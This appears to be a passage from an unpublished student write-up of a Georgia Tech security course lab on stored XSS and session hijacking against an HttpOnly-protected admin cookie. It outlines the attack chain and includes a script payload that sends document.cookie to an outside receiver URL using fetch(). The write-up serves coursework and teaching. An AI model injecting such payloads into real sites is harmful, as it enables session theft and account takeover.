 ```yaml
---
title: Task 4 - Stored XSS and Session Hijacking
date: 2025-10-19 00:00:00 +0000
categories: [Gatech, Courses]
hidden: true
published: false
tags: [xss, stored-xss, session-hijacking, csrf, httponly-cookies, fetch-api]
toc: true
---
```


## Background

This was the most complex task in the project, requiring the chaining of multiple attack techniques. The goal was to exploit a stored XSS vulnerability to steal an admin's secret hash. The challenge: the admin's session cookie was protected with the `HttpOnly` flag, making it inaccessible to JavaScript via `document.cookie`.

### The Scenario

The application had a post write-up feature where users could submit content that would be reviewed by administrators. This created a classic stored XSS scenario:

1. Attacker submits a malicious post
2. Admin views the post in their admin console
3. Malicious script executes in the admin's browser
4. Script performs actions using the admin's session
5. Script exfiltrates sensitive data to the attacker

### The HttpOnly Challenge

The session cookie had the `HttpOnly` flag set:

```http
Set-Cookie: sessionid=abc123; HttpOnly; Secure; SameSite=Lax
```

This meant `document.cookie` would return an empty string or wouldn't include the session cookie. Traditional cookie theft was impossible.

## Initial Approach

### Attempt #1: Direct Cookie Theft (Failed)

My first instinct was to steal the cookie:

```javascript
<script>
fetch('https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065', {
    method: 'POST',
    body: 'cookie=' + document.cookie
});
</script>
```

